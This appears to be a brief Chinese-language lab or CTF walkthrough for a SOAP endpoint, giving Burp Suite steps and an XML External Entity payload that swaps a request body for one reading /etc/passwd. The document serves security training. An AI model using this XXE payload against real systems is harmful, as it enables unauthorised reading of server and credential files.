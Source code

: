 # SOAP

* 開啟Burp Suite
* 打開網頁隨意按下一個按鈕
* 至Proxy->HTTP history
* 找到 [網址] POST /data 隨後右鍵 Send to Repeater
* 將以下
  
```xml
<?xml version="1.0" encoding="UTF-8"?><data><ID>2</ID></data>
```

* 改成

```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE test [<!ENTITY test SYSTEM "file:/etc/passwd">]><data><ID>&test;</ID></data>
```